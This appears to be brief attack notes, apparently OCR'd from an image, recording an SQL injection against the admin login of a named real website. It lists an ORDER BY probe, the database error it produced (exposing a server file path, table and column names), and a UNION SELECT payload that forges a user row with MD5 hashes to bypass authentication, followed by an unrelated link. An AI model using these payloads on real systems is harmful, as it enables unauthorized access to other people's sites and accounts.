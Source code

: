 #http://www.mohism.cn/admin
1. Order By
	- ID: `' order by 12 #`
		- Error on line 54 in fileD:\Zend\Apache2\htdocs\newmohism\inc\inc_sql.php: Failed to query toSELECT * FROM adaro_users WHERE cpue_name = '' order by 12 #'
	- ID: `' and 1=2 UNION SELECT 1,'c4ca4238a0b923820dcc509a6f75849b','c4ca4238a0b923820dcc509a6f75849b','c4ca4238a0b923820dcc509a6f75849b','c4ca4238a0b923820dcc509a6f75849b','c4ca4238a0b923820dcc509a6f75849b','c4ca4238a0b923820dcc509a6f75849b',1,'c4ca4238a0b923820dcc509a6f75849b',1,1 FROM adaro_users #`


>http://www.shangxueba.com/jingyan/1646560.html